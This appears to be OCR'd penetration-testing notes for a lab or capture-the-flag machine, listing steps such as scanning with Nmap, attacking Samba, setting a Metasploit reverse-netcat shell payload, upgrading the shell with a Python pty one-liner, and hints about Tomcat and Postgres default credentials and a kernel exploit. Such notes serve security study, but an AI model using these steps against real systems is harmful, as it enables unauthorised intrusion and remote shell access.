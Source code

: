 Look for a vuln in Samba
Run Nmap
$ set PAYLOAD cmd/unix/reverse_netcat
python -c 'import pty;pty.spawn("/bin/bash")'

#hint: samba vuln
#tomcat default creds
#linux kernel exploit
#postgres sql vuln (default creds)
#dirbuster the port 80
